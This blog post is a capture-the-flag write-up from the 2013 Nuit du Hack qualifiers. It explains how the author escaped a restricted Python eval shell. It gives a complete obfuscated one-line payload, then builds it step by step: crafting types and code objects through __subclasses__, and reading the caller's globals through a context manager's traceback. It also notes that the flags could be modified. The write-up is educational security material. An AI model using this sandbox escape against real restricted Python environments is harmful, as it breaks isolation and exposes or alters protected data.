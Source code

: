 ```yaml
---
title: 'Escaping a Python sandbox (NdH 2013 quals writeup)'
date: 2013-03-10T00:00:00+02:00
draft: false
---
```


The Nuit du Hack CTF 2013 Quals round was taking place yesterday. As usual,
I'll be posting a few writeups about fun exercises and/or solutions from this
CTF. If you want more, my teammate [w4kfu](http://blog.w4kfu.com/) should be
posting some writeups as well on his blog soon.

**TL;DR:**

{{< highlight python >}}
auth(''.__class__.__class__('haxx2',(),{'__getitem__':
lambda self,*a:'','__len__':(lambda l:l('function')( l('code')(
1,1,6,67,'d\x01\x00i\x00\x00i\x00\x00d\x02\x00d\x08\x00h\x02\x00'
'd\x03\x00\x84\x00\x00d\x04\x006d\x05\x00\x84\x00\x00d\x06\x006\x83'
'\x03\x00\x83\x00\x00\x04i\x01\x00\x02i\x02\x00\x83\x00\x00\x01z\n'
'\x00d\x07\x00\x82\x01\x00Wd\x00\x00QXd\x00\x00S',(None,'','haxx',
l('code')(1,1,1,83,'d\x00\x00S',(None,),('None',),('self',),'stdin',
'enter-lam',1,''),'__enter__',l('code')(1,2,3,87,'d\x00\x00\x84\x00'
'\x00d\x01\x00\x84\x00\x00\x83\x01\x00|\x01\x00d\x02\x00\x19i\x00'
'\x00i\x01\x00i\x01\x00i\x02\x00\x83\x01\x00S',(l('code')(1,1,14,83,
'|\x00\x00d\x00\x00\x83\x01\x00|\x00\x00d\x01\x00\x83\x01\x00d\x02'
'\x00d\x02\x00d\x02\x00d\x03\x00d\x04\x00d\n\x00d\x0b\x00d\x0c\x00d'
'\x06\x00d\x07\x00d\x02\x00d\x08\x00\x83\x0c\x00h\x00\x00\x83\x02'
'\x00S',('function','code',1,67,'|\x00\x00GHd\x00\x00S','s','stdin',
'f','',None,(None,),(),('s',)),('None',),('l',),'stdin','exit2-lam',
1,''),l('code')(1,3,4,83,'g\x00\x00\x04}\x01\x00d\x01\x00i\x00\x00i'
'\x01\x00d\x00\x00\x19i\x02\x00\x83\x00\x00D]!\x00}\x02\x00|\x02'
'\x00i\x03\x00|\x00\x00j\x02\x00o\x0b\x00\x01|\x01\x00|\x02\x00\x12'
'q\x1b\x00\x01q\x1b\x00~\x01\x00d\x00\x00\x19S',(0, ()),('__class__',
'__bases__','__subclasses__','__name__'),('n','_[1]','x'),'stdin',
'locator',1,''),2),('tb_frame','f_back','f_globals'),('self','a'),
'stdin','exit-lam',1,''),'__exit__',42,()),('__class__','__exit__',
'__enter__'),('self',),'stdin','f',1,''),{}))(lambda n:[x for x in
().__class__.__bases__[0].__subclasses__() if x.__name__ == n][0])})())
{{< /highlight >}}

<!--more-->

One of the exercises, called "Meow", gave us a remote restricted Python shell
with most builtins disabled:

{{< highlight python >}}
{'int': <type 'int'>, 'dir': <built-in function dir>,
'repr': <built-in function repr>, 'len': <built-in function len>,
'help': <function help at 0x2920488>}
{{< /highlight >}}

A few functions were available, namely `kitty()` displaying an ASCII cat,
and `auth(password)`. I assumed our goal was to bypass the authentication or to
find the password. Unfortunately, our Python commands are passed to `eval` in
expression mode, which means we can't use any Python statement: no assignment,
no print, no function/class definitions, etc. This makes things a lot harder to
work with. We'll have to use some Python magic (this writeup will be full of
it, I promise).

I first assumed `auth` was simply comparing the password to a constant string.
In this case, I could use a custom object with `__eq__` overwritten to always
return True. However, there is no trivial way to craft that object: we can't
define our own classes using the `class Foo:` syntax, we can't modify an
already existing object (no assignment), etc. This is where our first bit of
Python magic comes into place: we can directly instantiate a `type` object to
create a class object, then instantiate this class object. Here is how you
would do it:

{{< highlight python >}}
type('MyClass', (), {'__eq__': lambda self: True})
{{< /highlight >}}

However, we can't use `type` here: it is not defined in our builtins. We can
use a second trick: every Python object has a `__class__` attribute, which
gives us the type of an object. For example, `''.__class__` is `str`. But more
interesting: `str.__class__` is `type`! Which means we can
use `''.__class__.__class__` to instantiate our new type.

Unfortunately, the `auth` function is not simply comparing our object to a
string. It's doing a lot of other things to it: slicing it to 14 characters,
taking its length via `len()` and calling `reduce` with a strange `lambda` as
well. Without the code it's going to be hard to guess how to make an object
that behaves exactly like the function wants, and I don't like guessing. We
need more magic!

Enter code objects. Python functions are actually objects which are made of a
code object and a capture of their global variables. A code object contains the
bytecode of that function, as well as the constant objects it refers to, some
strings and names, and other metadata (number of arguments, number of locals,
stack size, mapping from bytecode to line number). You can get the code object
of a function using `myfunc.func_code`. This is forbidden in the restricted
mode of the Python interpreter, so we can't see the code of
the `auth` function. However, we can craft our own functions like we crafted
our own types!

You might wonder: why do we need to use code objects to craft functions when we
already have `lambda`? Simple: lambdas cannot contain statements. Random
crafted functions can! For example, we can create a function that prints its
argument to stdout:

{{< highlight python >}}
ftype = type(lambda: None)
ctype = type((lambda: None).func_code)
f = ftype(ctype(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S', (None,),
                (), ('s',), 'stdin', 'f', 1, ''), {})
f(42)
# Outputs 42
{{</ highlight >}}

There is a slight problem with this though: to get the type of a code object,
we need to access the `func_code` attribute, which is restricted. Fortunately,
we can use even more Python magic to find our type without accessing forbidden
attributes.

In Python, a type object has a `__bases__` attribute which returns the list of
all its base classes. It also has a `__subclasses__` method that returns the
list of all types that inherit from it. If we use `__bases__` on a random type,
we can reach the top of the type hierarchy (`object` type), then read the
subclasses of `object` to get a list of all types defined in the interpreter:

{{< highlight python >}}
>>> len(().__class__.__bases__[0].__subclasses__())
81
{{</ highlight >}}

We can then use this list to find our `function` and `code` types:

{{< highlight python >}}
>>> [x for x in ().__class__.__bases__[0].__subclasses__()
...  if x.__name__ == 'function'][0]
<type 'function'>
>>> [x for x in ().__class__.__bases__[0].__subclasses__()
...  if x.__name__ == 'code'][0]
<type 'code'>
{{</ highlight >}}

Now that we can build any function we want, what can we do? We can't directly
access the non restricted builtins: the functions we craft are still executed
in the restricted environment. We can get a non sandboxed function to call us:
the `auth` function call the `__len__` method of the object that we pass as a
parameter. This is however not enough to get out of the sandbox: our globals
are still the same and we can't for example import a module. I tried to look at
all the classes we could access via the `__subclasses__` trick to see if we
could get a reference to a useful module through there, but no dice. Even
getting Twisted to call one of our crafted functions via the `reactor` was not
enough. We could try to get a traceback object and use it to browse the stack
frames of our callers, but the only trivial ways to get a traceback object are
via the `inspect` or the `sys` modules which we can't import. After being
blocked on that problem, I went to work on other problems, slept a lot, and
woke up to the solution I needed!

There actually is another way to get a traceback object in Python without using
the standard library: context managers. They are a new feature of Python 2.6
which allow some kind of object life scoping in Python:

{{< highlight python >}}
class CtxMan:
    def __enter__(self):
        print 'Enter'
    def __exit__(self, exc_type, exc_val, exc_tb):
        print 'Exit:', exc_type, exc_val, exc_tb

with CtxMan():
    print 'Inside'
    error

# Output:
# Enter
# Inside
# Exit: <type 'exceptions.NameError'> name 'error' is not defined
        <traceback object at 0x7f1a46ac66c8>
{{</ highlight >}}

We can create a context manager object which will use the traceback object
passed to `__exit__` to display the global variables of our caller, caller
which is out of the restricted environment. To do that, we use a combination of
all our previous tricks. We create an anonymous type defining `__enter__` as a
simple lambda and `__exit__` as a lambda that accesses what we want in the
traceback and passes it to our `print` lambda (remember, we can't use
statements):

{{< highlight python >}}
''.__class__.__class__('haxx', (),
  {'__enter__': lambda self: None,
   '__exit__': lambda self, *a:
     (lambda l: l('function')(l('code')(1, 1, 1, 67, '|\x00\x00GHd\x00\x00S',
                                        (None,), (), ('s',), 'stdin', 'f',
                                        1, ''), {})
     )(lambda n: [x for x in ().__class__.__bases__[0].__subclasses__()
                    if x.__name__ == n][0])
     (a[2].tb_frame.f_back.f_back.f_globals)})()
{{</ highlight >}}

We need to go deeper! Now, we need to use this context manager (that we will
call `ctx` in our next code snippets) in a function that will purposefully
raise an error in a `with` block:

{{< highlight python >}}
def f(self):
    with ctx:
        raise 42
{{</ highlight >}}

And we put `f` as the `__len__` of our crafted object that we pass to
the `auth` function:

{{< highlight python >}}
auth(''.__class__.__class__('haxx2', (), {
  '__getitem__': lambda *a: '',
  '__len__': f
})())
{{</ highlight >}}

Refer to the beginning of the article for the "real" inlined code. When ran on
the server, this causes the Python interpreter to run our `f` function, go
through the crafted context manager `__exit__`, which will access the globals
from our caller, which contain these two interesting values:

```
'FLAG2': 'ICanHazUrFl4g', 'FLAG1': 'Int3rnEt1sm4de0fc47'
```

Two flags?! Turns out that the same service was used for two successive
exercises. Double kill!

For more fun, by accessing the globals we can do more than simply reading: we
can also modify the flags! Using `f_globals.update({ 'FLAG1': 'lol', 'FLAG2':
'nope' })` the flags are changed until the next server restart. This was
apparently not planned by the organizers.

Anyway, I still don't know how we were supposed to solve this challenge
normally, but I think this "generic" solution is a good way to introduce people
to some nice Python black magic. Use it carefully, it's easy to get Python to
segfault using crafted code objects (exploiting the Python interpreter and
running an x86 shellcode via crafted Python bytecode will be left as an
exercise for the reader). Thanks to the Nuit du Hack organizers for this nice
exercise.
